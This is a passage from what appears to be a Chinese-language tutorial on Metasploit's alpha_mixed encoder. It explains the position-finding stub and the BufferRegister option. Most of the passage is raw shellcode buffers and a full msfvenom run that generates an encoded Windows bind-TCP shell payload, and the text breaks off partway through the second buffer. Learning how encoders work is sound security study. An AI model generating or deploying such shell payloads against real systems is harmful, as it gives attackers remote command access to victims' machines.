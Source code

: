 buf += "\x37\x70\x57\x61\x73\x6c\x6d\x59\x4b\x56\x73\x5a\x34"
buf += "\x50\x52\x76\x33\x67\x30\x68\x49\x52\x49\x4b\x50\x37"
buf += "\x32\x47\x79\x6f\x68\x55\x6b\x35\x79\x50\x70\x75\x33"
buf += "\x68\x63\x67\x50\x68\x6d\x67\x78\x69\x45\x68\x79\x6f"
buf += "\x59\x6f\x39\x45\x33\x67\x65\x38\x62\x54\x58\x6c\x45"
buf += "\x6b\x39\x71\x6b\x4f\x69\x45\x66\x37\x6e\x77\x52\x48"
buf += "\x70\x75\x52\x4e\x52\x6d\x71\x71\x69\x6f\x58\x55\x62"
buf += "\x4a\x55\x50\x43\x5a\x73\x34\x70\x56\x70\x57\x31\x78"
buf += "\x33\x32\x4e\x39\x48\x48\x53\x6f\x79\x6f\x38\x55\x6d"
buf += "\x53\x7a\x58\x55\x50\x53\x4e\x46\x4d\x6e\x6b\x77\x46"
buf += "\x30\x6a\x33\x70\x33\x58\x43\x30\x46\x70\x55\x50\x77"
buf += "\x70\x51\x46\x53\x5a\x77\x70\x71\x78\x31\x48\x6f\x54"
buf += "\x51\x43\x59\x75\x4b\x4f\x59\x45\x6c\x53\x61\x43\x62"
buf += "\x4a\x65\x50\x31\x46\x36\x33\x61\x47\x30\x68\x77\x72"
buf += "\x79\x49\x49\x58\x31\x4f\x79\x6f\x6e\x35\x6e\x63\x38"
buf += "\x78\x55\x50\x61\x6e\x76\x67\x53\x31\x58\x43\x36\x49"
buf += "\x39\x56\x43\x45\x59\x79\x4f\x33\x41\x41"
```
仔细观察shellcode，可以发现其中包括不可读的字符数字：
```
>>> print buf
�����w�[SYIIIIIIIIIICCCCCC7QZjAXP0A0AkAAQ2AB2BB0BBABXP8ABuJI9lZHnbuPgpc0QpmYxe4qO0atLK2pFPNkpRFlLKv2gdn
kbRq8DOMgbjev4qKOLlGLCQ3LwrtlgPiQzotMs1O7irkBF2aGLK3bfpNk2j7LlKrlFq3HZCrhvan1SankbyupUQhSnkQYDXzCEjriNkttlKC
1kffQIonLiQZo4MeQIWvXyprUzVTCSMxxWK1mVDD5KT68LK68dd31kcE6LKVl2klKcheLuQN3Nkc4LK6ajpoyG4gTWTQK1K0a2yCj3aIoKP1
OqORzLKVrxkLMQM2H5c7B30wp2H47CC7BqO1Dqx0LPwuv6g9oxUoHz06a305P5yO4QDrpu8UyopRKwpKOxUBJdKaIv0zBKM1zWq0jdB1xKZf
oYOypyoKeMGPhDBC0gaCloyxfcZb0V6cgCX8B9K07E7IozunekpsE2xpWbHh78iehioyohUQGbHqdjLGKhaiokepWLW3XpubN0MpaiojucZg
prJ5TQF1GCXtByIZhQOkO9EosZX30Qn4mLK5fpjqPu8wp6p30uPBvpjC0SX3hMt3ciuYoiEOcQC0jc0Sf633gu8eR9IzhsoIoxUK38xEPand
GWq8CuyxFSE8iySAA
```

这时是因为操作码“\x89\xe2\xdb\xdb\xd9\x72”在payload的开始位置，需要找到payloads绝对位置，并获得一个位置独立的shellcode。一旦我们获得了地址之后，就把它推到对堆栈里，并存储在ECX寄存器中（用于计算偏移量）。然而，如果我们可以在运行代码前就预判或知道这个地址，那么我们就可以使用选项```BufferRegister=REG32```来对payload进行编码。

```
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX -f python
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 651 (iteration=0)
x86/alpha_mixed chosen with final size 651
Payload size: 651 bytes
buf =  ""
buf += "\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49\x49"
buf += "\x49\x49\x49\x49\x37\x51\x5a\x6a\x41\x58\x50\x30\x41"
buf += "\x30\x41\x6b\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30"
buf += "\x42\x42\x41\x42\x58\x50\x38\x41\x42\x75\x4a\x49\x49"
buf += "\x6c\x49\x78\x4d\x52\x77\x70\x47\x70\x47\x70\x35\x30"
buf += "\x6e\x69\x49\x75\x44\x71\x79\x50\x42\x44\x6c\x4b\x72"
buf += "\x70\x74\x70\x6e\x6b\x50\x52\x34\x4c\x6c\x4b\x43\x62"
buf += "\x57\x64\x6c\x4b\x33\x42\x56\x48\x74\x4f\x6d\x67\x72"
buf += "\x6a\x45\x76\x46\x51\x79\x6f\x6c\x6c\x75\x6c\x71\x71"
buf += "\x63\x4c\x43\x32\x36\x4c\x75\x70\x79\x51\x7a\x6f\x36"
buf += "\x6d\x33\x31\x48\x47\x38\x62\x39\x62\x56\x32\x43\x67"
buf += "\x6c\x4b\x62\x72\x52\x30\x6c\x4b\x63\x7a\x57\x4c\x6c"
buf += "\x4b\x32\x6c\x54\x51\x63\x48\x4a\x43\x37\x38\x33\x31"
buf += "\x6e\x31\x42\x71\x4e\x6b\x62\x79\x55\x70\x37\x71\x7a"
buf += "\x73\x6e\x6b\x50\x49\x76\x78\x78\x63\x55\x6a\x47\x39"